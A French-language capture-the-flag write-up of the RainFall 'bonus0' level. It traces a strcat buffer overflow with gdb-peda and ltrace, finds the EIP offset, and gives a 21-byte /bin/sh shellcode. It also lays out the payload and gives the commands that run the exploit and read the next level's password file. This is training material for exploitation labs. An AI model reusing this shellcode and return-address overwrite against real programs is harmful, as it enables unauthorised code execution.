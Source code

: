 # Bonu 0

- En lisant le code et en l'executant on comprend qu'il y a un bug/faille
- Dans la fonction pp le \0 de la 1er string est remplacer par un espace
- Ce qui fait que quand la premiere string est entierement remplis il considere str1 et str2 comme une string
- str2 est donc copier a la fin de str1 + str2 dans strcat
- Dans gdb on voit donc qu'on peut ecrire sur la variable $eip

<pre>
$> gdb-peda pattern create 30
'AAA%AAsAABAA$AAnAACAA-AA(AADAA'
gdb-peda$ r
Starting program: /home/alarm/rainfall/bonus0/Ressources/bonus0 
 - 
iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiii
 - 
AAA%AAsAABAA$AAnAACAA-AA(AADAA
iiiiiiiiiiiiiiiiiiiiAAA%AAsAABAA$AAnAACA AAA%AAsAABAA$AAnAACA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
<strong>EIP: 0x416e4141 ('AAnA')</strong>
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x416e4141
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x416e4141 in ?? ()
gdb-peda$ pattern offset AAnA
<strong>AAnA found at offset: 13</strong>
</pre>

<pre>
bonus0@RainFall:~$ (echo BBBBBBBBBBBBBBBBBBB; sleep 1; echo AAAAAAAAAAAAAAAAAAAAA; cat) | ltrace ./bonus0 
\__libc_start_main(0x80485a4, 1, 0xbffff704, 0x80485d0, 0x8048640 <unfinished ...>
puts(" - ")                                                                                = 4
read(0, "BBBBBBBBBBBBBBBBBBB\n", 4096)                                                     = 20
strchr("BBBBBBBBBBBBBBBBBBB\n", '\n')                                                      = "\n"
strncpy(0xbffff5e8, "BBBBBBBBBBBBBBBBBBB", 20)                                             = 0xbffff5e8
puts(" - ")                                                                                = 4
read(0, "AAAAAAAAAAAAAAAAAAAAA\n", 4096)                                                   = 22
strchr("AAAAAAAAAAAAAAAAAAAAA\n", '\n')                                                    = "\n"
strncpy(0xbffff5fc, "AAAAAAAAAAAAAAAAAAAA", 20)                                            = 0xbffff5fc
strcpy(<strong>0xbffff636</strong>, "BBBBBBBBBBBBBBBBBBB")                                                  = 0xbffff636
strcat("BBBBBBBBBBBBBBBBBBB ", "AAAAAAAAAAAAAAAAAAAA\364\017\375\267")                     = "BBBBBBBBBBBBBBBBBBB AAAAAAAAAAAA"...
puts("BBBBBBBBBBBBBBBBBBB AAAAAAAAAAAA"...)                                                = 45
+++ exited (status 0) +++
</pre>
- On a l'adresse de notre stack (*0xbffff636*)
- Notre shellcode fait 21 caractere donc on le decoupe en deux 20 dans le premier argument et 1 dans le deuxieme

| Arg 1 | Arg 2 |
|-------|-------|
| `\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\n` | `\80` + `B` \* 8 + `0xbffff636` + `B` \* 20 + `\n`|

- Donc en gros on overide la return address pour qu'elle renvoie sur notre shellcode
- On utilise un code en C car il y a des problemes avec python
```
gcc /tmp/pattern.c -o /tmp/pat
gcc /tmp/shellcode.c -o /tmp/shell
(/tmp/shell; sleep 1; /tmp/pat; cat) | ./bonus0
cat /home/user/bonus0/.pass
```
